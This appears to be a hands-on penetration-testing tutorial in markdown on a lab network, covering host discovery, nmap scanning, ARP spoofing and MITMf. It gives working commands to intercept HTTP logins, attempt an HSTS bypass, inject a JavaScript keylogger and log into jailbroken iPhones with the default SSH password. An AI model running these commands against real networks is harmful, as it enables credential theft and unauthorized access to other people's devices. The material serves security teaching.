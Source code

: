 # Information Gathering

## Content
1. [Discovering Connected devices](#discovering-connected-devices)
2. [Network Mapping (NMAP/ ZENMAP)](#network-mapping)
3. [Man In The Middle](#man-in-the-middle)
	1. [ARP Poisoning](#arp-poisoning)
	2. [ARP Spoofing](#arp-spoofing)
		1. [Installing MITMF](#installing-mitmf)
		2. [Bypassing HTTPS](#bypassing-https)
	3. [Keyloggers, Screenshots, etc](#other-use-cases)


### Discovering Connected devices

In this we would search for the devices that are connected to the same network. This would help in attacking those devices. So this would be more fruitful, once access has been gained to the desired network.

```shell
root@kali:~/Desktop/information-gathering# netdiscover -r 10.0.2.1/24
 Currently scanning: Finished!   |   Screen View: Unique Hosts                                                                                    
                                                                                                                                                  
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240                                                                                  
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.2.1        52:54:00:12:35:00      1      60  Unknown vendor                                                                                 
 10.0.2.2        52:54:00:12:35:00      1      60  Unknown vendor                                                                                 
 10.0.2.3        08:00:27:85:e0:96      1      60  PCS Systemtechnik GmbH                                                                         
 10.0.2.4        08:00:27:04:18:04      1      60  PCS Systemtechnik GmbH                                                                         
```
where `-r 10.0.2.1/24` signifies the range of IPs that I'm looking for in the subnet. 

> Please note that you can search for devices in the subnet that you're present.


### Network Mapping
Slower than `netdiscover` but gives a lot more information - like OS, applications running, open ports, connected clients etc. 

To perform network mapping you can run `zenmap` which is a graphical user interface for nmap. This allows for much more detailed summary of the devices connected to the network. Nmap is very vast subject in itself. You can refer [this PDF](http://wiki.informationsecurity.club/lib/exe/fetch.php/книги:nmap_network_scanning.pdf) for more information.

For example, if I do a `Quick Scan Plus` i'll be able to see the ports that are opne on the devices that are connectedo to the same network. Then For example, you see that iphone is connected to the network, and the `SSH` port is open that would translate to the iphone being jailbroken. In such a situation, you can SSH into the iphone, with `ssh root@ip.address` with the password being `alpine`. Also, if you see that there are several PCs or computers with SSH port open, you can try to ssh into them, and if you know the password or if the password is not set, then voila. You're in!

### Man In The Middle

In cryptography and computer security, a man-in-the-middle attack (MITM) is an attack where the attacker secretly relays and possibly alters the communication between two parties who believe they are directly communicating with each other. One example of a MITM is active eavesdropping, in which the attacker makes independent connections with the victims and relays messages between them to make them believe they are talking directly to each other over a private connection, when in fact the entire conversation is controlled by the attacker

#### Arp poisoning

Address Resolution Protocol (ARP). Maps the IP address to the MAC address. So in this case, the `Malcious Machine` would simply exploit the ARP protocol to tell the router that "I am the `USER A`" and to USER A, it would tell that "I am the `ROUTER`". 

![ARP Poisoning Example](./Resources/01-arp-poisoning-example.png)

Hence, the requests from the `USER A` would be passed to the `Malcious Machine` which would forward the requests to the `Router`. Any responses from the `Router` would be sent to the `Malcious Machine`, which would subsequently send these responses to `User A`.

* ARP is not secure because
	* clients `accept responses` even when no requests are sent, 
	* moreover clients trust without any form of `verification`

#### Arp Spoofing

So to perform this we would execute the following two commands.

```shell
root@kali:~/Desktop/information-gathering# arpspoof -i eth0 -t 10.0.2.4 10.0.2.1
```
This command would tell the target machine that I'm the router.

```shell
root@kali:~/Desktop/information-gathering# arpspoof -i eth0 -t 10.0.2.a 10.0.2.4
```
This command would tell the router that I'm the target machine.

If you have access to the target machine, while experimenting, you can run the `arp -a` command before and after execution of the previous command to see the changes in the mac addresses yourself.

![Before and After](./Resources/02-Before-after.png)

##### Installing MITMF

**Installation** MITMf relies on a **LOT** of external libraries therefore it is highly recommended you use [virtualenvs](http://docs.python-guide.org/en/latest/dev/virtualenvs/) to install the framework, this avoids permission issues and conflicts with your system site packages (especially on Kali Linux).

Before starting the installation process:

*   On Arch Linux:

    `pacman -S python2-setuptools libnetfilter_queue libpcap libjpeg-turbo capstone`
    

*   On Debian and derivatives (e.g Ubuntu, Kali Linux etc...)

    ```
    apt-get install python-dev python-setuptools libpcap0.8-dev libnetfilter-queue-dev libssl-dev libjpeg-dev libxml2-dev libxslt1-dev libcapstone3 libcapstone-dev libffi-dev file
    ```
   

*   Install virtualenvwrapper:

    `pip install virtualenvwrapper`
    

*   Edit your `.bashrc` or `.zshrc` file to source the virtualenvwrapper.sh script: (This is for Kali Linux)

    `source /usr/local/bin/virtualenvwrapper.sh`
    

**The location of this script may vary depending on your Linux distro**

You can find yours by running `find / -name virtualenvwrapper.sh`

*   Restart your terminal or run:

    `source /usr/local/bin/virtualenvwrapper.sh`
    

*   Create your virtualenv:

    `mkvirtualenv MITMf -p /usr/bin/python2.7`
    

*   Clone the MITMf repository:

    `git clone https://github.com/byt3bl33d3r/MITMf`
    

*   cd into the directory, initialize and clone the repos submodules:

    `cd MITMf && git submodule init && git submodule update --recursive`
    

*   Install the dependencies:

    `pip install -r requirements.txt`
    

*   You're ready to rock!

    `python mitmf.py --help`
    
    Then you can start the capturing of data using
    
    ```shell
    root@kali:~/MITMf# python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0
    ```

![Running MITMF](./Resources/03-Running-mitmf.png)

And while visiting `HTTP` sites you can capture the content of the user name and password like this. 

![Capturing Username and Password](./Resources/04-username-password.png)

> Note that this method would work only with `HTTP` sites. In the next section we will learn about how to bypass `HTTPS` traffic

##### Bypassing HTTPS

```shell
    root@kali:~/MITMf# python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0 --hsts
```
The problem however is that most websites now a days uses the [HTTP Strict Transport Security](http://en.wikipedia.org/wiki/HTTP_Strict_Transport_Security#Applicability) which prevents the bypassing of the https security which the MITMF framework tries to do by downgrading the `HTTPS` connection to `HTTP` However, there is a workaround that involves the DNS spoofing attack. In this method, you would redirect the user to a website that looks like the website that the user often goes to to enter their username and password. 

DNS spoofing can be enabled easily by editing the `mitmf.conf` file to redirect the traffic.

Hence, when trying to prevent this type of attack make sure that you have `HSTS` enabled for your website and also make the user aware of such attacks, especially in offices and work places.

#### Other Use Cases

* Taking screenshots 
```shell
    root@kali:~/MITMf# python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0 --screen
```

* Injecting Key Logger
```shell
    root@kali:~/MITMf# python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0 --jskeylogger
```
    
    
There are several more, you can run `python mitmf.py` to get the help